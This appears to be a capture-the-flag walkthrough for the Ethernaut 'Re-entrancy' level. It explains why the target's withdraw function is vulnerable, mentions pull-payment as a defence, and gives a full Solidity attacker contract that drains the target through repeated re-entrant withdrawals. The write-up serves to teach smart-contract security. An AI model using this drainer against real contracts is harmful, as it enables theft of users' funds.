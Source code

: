# [10. Re-entrancy](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

There is a pattern called [Checks - Effects - Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) in Solidity. Basically:
    1. you **check** whether you can do something, such as checking balance
    2. you apply the **effects** of doing it on your contract, such as updating balance
    3. you do the actual **interactions** on-chain with other, such as transferring money

In this case, the function is `withdraw` but the **interaction** comes before the **effect**. This means that when we receive money from within the `withdraw`, things are briefly in our control until the program goes back to the `withdraw` function to do the effect. When we have the control, we can call `withdraw` once more and the same thing will happen again and again.

When we create the instance in this game, we can see that:
    - `await getBalance(contract.address)` is 0.001 ether.
    - `await contract.balanceOf(player)` is 0.

We will donate some money to create our initial balance at the target, which will allow the `balances[msg.sender] >= _amount` to be true. Now, we can repeadetly withdraw that amount by re-entering the withdraw function. Since balance update effect happens after the transfer interaction, we will go on and on until the balance is depleted.As a defense, you could use a pull-payment approach: the user to be paid must come and withdraw their money themselves, rather than us paying to them.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0; 

// Interface of the target contract
interface IReentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Attacker {
  address public owner;
  IReentrance targetContract;
  uint targetValue = 0.001 ether;

  constructor(address payable _targetAddr) payable {
    targetContract = IReentrance(_targetAddr);
    owner = msg.sender;
  }

  // withdraw money from this contract
  function withdraw() public {
    require(msg.sender == owner, "Only the owner can withdraw."); 
    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to withdraw.");
  }

  // begin attack by depositing and withdrawing
  function attack() public payable {
    require(msg.value >= targetValue);
    targetContract.donate{value:msg.value}(address(this));
    targetContract.withdraw(msg.value);
    targetValue = msg.value;
  }

  receive() external payable {
    uint targetBalance = address(targetContract).balance;
    if (targetBalance >= targetValue) {
      // withdraw at most your balance at a time
      targetContract.withdraw(targetValue);
    } else if (targetBalance > 0) {
      // withdraw the remaining balance in the contract
      targetContract.withdraw(targetBalance);
    }
  }
}
```

_Note: This is how "The DAO" hack was executed, which resulted in the creation of Ethereum Classic._
